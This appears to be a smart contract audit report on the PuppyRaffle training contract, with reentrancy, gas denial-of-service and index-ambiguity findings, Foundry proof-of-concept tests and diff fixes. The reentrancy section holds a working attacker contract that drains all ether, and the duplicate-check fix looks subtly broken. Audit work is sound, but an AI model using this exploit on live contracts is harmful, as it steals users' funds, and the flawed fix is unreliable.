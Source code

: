 ### [H-1] Executing a reentrancy attack from an external contract allows to drain all the ether deposited in the raffle.

IMPACT: HIGH
LIKELIHOOD: HIGH

**Description:** The function `PupplyRaffle::refund` can be attacked using reentrancy.

**Impact:** All contract funds can be drained ejecuting reentrancy in the `PupplyRaffle::refund` function.

**Proof of Concept:** 

If 100 users enters de raffle, and a malicious contract enters after and requests the refund executing reentrancy, all the funds will be drained.

- PuppyRaffle balance before attack: 100
- ReentrancyAttacker balance before attack: 1
  
- PuppyRaffle balance after attack: 0
- ReentrancyAttacker balance after attack: 101

<details>
<summary>PoC</summary>
Place the following test and contract at `PuppyRaffleTest.t.sol`

```javascript
    function test_reentracyRefund() public {
        ReentrancyAttacker reentrancyAttackerContract;
        reentrancyAttackerContract = new ReentrancyAttacker(puppyRaffle);
        vm.deal(address(reentrancyAttackerContract), 1 ether);

        // Let´s enter 100 players
        uint256 playersNumber = 100;
        address[] memory players = new address[](playersNumber);
        for (uint256 i = 0; i < playersNumber; i++) {
            players[i] = address(i);
        }
        
        // Enter 100 players to the raffle
        puppyRaffle.enterRaffle{value: entranceFee * playersNumber}(players);

        // Check balance before the attack
        console.log("PuppyRaffle balance before attack:", address(puppyRaffle).balance / 1e18);
        console.log("ReentrancyAttacker balance before attack:", address(reentrancyAttackerContract).balance / 1e18);
        console.log("-------------------");

        // Reentrancy attack contract starts the attack
        reentrancyAttackerContract.attack();

        // Check balance after attack
        console.log("PuppyRaffle balance after attack:", address(puppyRaffle).balance / 1e18);
        console.log("ReentrancyAttacker balance after attack:", address(reentrancyAttackerContract).balance / 1e18);
        console.log("-------------------");

        // Check the reentrancy attack count
        console.log("Reentrancy attack count:", reentrancyAttackerContract.attackCount());

        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(reentrancyAttackerContract).balance, 101 ether);
        assertEq(reentrancyAttackerContract.attackCount(), 101);
    }

    contract ReentrancyAttacker {
        PuppyRaffle puppyRaffleContract;
        uint256 public entraceFee;
        uint256 public playerIndex;
        
        uint256 public attackCount;

        constructor(PuppyRaffle _puppyRaffleContract) {
            puppyRaffleContract = _puppyRaffleContract;
            entraceFee = puppyRaffleContract.entranceFee();
        }

        function attack() public {
            // Enter the raffle
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyRaffleContract.enterRaffle{value: entraceFee}(players);
            // Refund the entrance fee & start attack
            playerIndex = puppyRaffleContract.getActivePlayerIndex(address(this));
            puppyRaffleContract.refund(playerIndex);
        }

        function _stealMoney() internal {
            attackCount++;
            if (address(puppyRaffleContract).balance >= entraceFee) {
                puppyRaffleContract.refund(playerIndex);
            }
        }

        receive() external payable {
            _stealMoney();
        }

        fallback() external payable {
            _stealMoney();
        }
    }
```
</details>

**Recommended Mitigation:** There are several ways to fix the reentrancy.

- Using CEI (Check - Effect - Interaction) Pattern.
```diff
    function refund(uint256 playerIndex) public {
+       // Check
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       // Effect
-       payable(msg.sender).sendValue(entranceFee);
+       players[playerIndex] = address(0);

+       // Interaction
-       players[playerIndex] = address(0);
+       payable(msg.sender).sendValue(entranceFee);
        
        emit RaffleRefunded(playerAddress);
    }
```

- Using lock boolean as execution function condition.
```diff
+   boolean locked;
    function refund(uint256 playerIndex) public {
+       require(!locked, "Reentrancy is locked");
+       locked = true;
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        
        emit RaffleRefunded(playerAddress);
+       locked = false;
    }
```

- Using Openzeppelin ReentrancyGuard Contract (https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)
  

### [M-1] Looping through player array to check for duplicates in the  `PupplyRaffle::enterRaffle` is a potencial denial of servide (DoS) attack, incrementing gas cost for future entrants.

IMPACT: MEDIUM
LIKELIHOOD: MEDIUM

**Description:** The `PupplyRaffle::enterRaffle` funciton loops through the `PupplyRaffle::players` array to check for duplicates. However, the longer the `PupplyRaffle::players` is the more check a new player will have to make. This means that the gas cost for players who entry early will be dramatically lower than those who enter late. Every aditional player entry in the array increase the gas cost of the transaction.

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouragin later users from entering, and causing a rush at the start of the raffle to be one of the first entrants in the queue.

An attacker might make the `PupplyRaffle::players` array so big, that no one else enters, guarenteeing themselves the win.

**Proof of Concept:**

If we have 2 sets of 100 players enter, the gas cost will be such:

- 1st 100 players: ~6503265 gas.
- 2nd 100 players: ~18995512 gas.

This is more than 3x time expensive for the second 100 players set.

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
    function test_dnialOfService() public {
        // Let´s enter 100 players
        uint256 playersNumber = 100;
        address[] memory players = new address[](playersNumber);
        for (uint256 i = 0; i < playersNumber; i++) {
            players[i] = address(i);
        }
        
        // Set a non-zero gas price for this test
        uint256 customGasPrice = 1 gwei;
        vm.txGasPrice(customGasPrice);
        
        // see how much gas it takes to enter 100 players
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNumber}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsed = gasStart - gasEnd;
        uint256 gasCost = gasUsed * tx.gasprice;
        
        console.log("Gas cost for 100 players:", gasCost / 1e9);

        // Now for the second 100 players
        address[] memory playersTwo = new address[](playersNumber);
        for (uint256 i = 0; i < playersNumber; i++) {
            playersTwo[i] = address(i + playersNumber);
        }
        
        // see how much gas it takes to enter 100 players
        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNumber}(playersTwo);
        uint256 gasEndTwo = gasleft();
        uint256 gasUsedTwo = gasStartTwo - gasEndTwo;
        uint256 gasCostTwo = gasUsedTwo * tx.gasprice;
        
        console.log("Gas used for sencond 100 players:", gasCostTwo / 1e9);
    }
```
</details>
  
**Recommended Mitigation:** There are few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

```diff
+   uint256 public raffleId;
+   mapping(address => uint256) public addressToRaffleId;

    constructor(uint256 _entranceFee, address _feeAddress, uint256 _raffleDuration) ERC721("Puppy Raffle", "PR") {
        entranceFee = _entranceFee;
        feeAddress = _feeAddress;
        raffleDuration = _raffleDuration;
        raffleStartTime = block.timestamp;

        rarityToUri[COMMON_RARITY] = commonImageUri;
        rarityToUri[RARE_RARITY] = rareImageUri;
        rarityToUri[LEGENDARY_RARITY] = legendaryImageUri;

        rarityToName[COMMON_RARITY] = COMMON;
        rarityToName[RARE_RARITY] = RARE;
        rarityToName[LEGENDARY_RARITY] = LEGENDARY;

+       raffleId = 1;
    }

    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
-       for (uint256 i = 0; i < newPlayers.length; i++) {
-           players.push(newPlayers[i]);
-       }
        for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+          players.push(newPlayers[i]);
        }
    }

    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply();

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+      raffleId++;
    }
```

### [L-1] Request getActivePlayerIndex through `PuppyRaffle::getActivePlayerIndex()` returns 0 both when the user is not in the array and when the user is the first player that entered on the raffle. The player might think they are not active.

**Description:** If the first player request their player index, they will get 0, on the same way that if they are not participating.

**Impact:** The player might think they are not participating in the raffle.

**Proof of Concept:**

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
    function test_getFirstActivePlayerIndex() public {
        address[] memory players = new address[](1);
        players[0] = playerOne;
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        uint256 firstActivePlayer = puppyRaffle.getActivePlayerIndex(playerOne);
        uint256 noActivePlayer = puppyRaffle.getActivePlayerIndex(playerTwo);
        // Player one is the first active player
        assertEq(puppyRaffle.players(0), playerOne);
        // The returned index for active player1 is 0
        assertEq(firstActivePlayer, 0);
        // The returned index for non-active player2 is 0
        assertEq(noActivePlayer, 0);
    }
```
</details>

**Recommended Mitigation:**

- Return a pair of values (uint256 index, bool found)

```diff
-   function getActivePlayerIndex(address player) external view returns (uint256) {
+   function getActivePlayerIndex(address player) external view returns (uint256, bool) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
-               return i;
+               return (i, true);
            }
        }
-       return 0;
+       return (0, false);
    }
```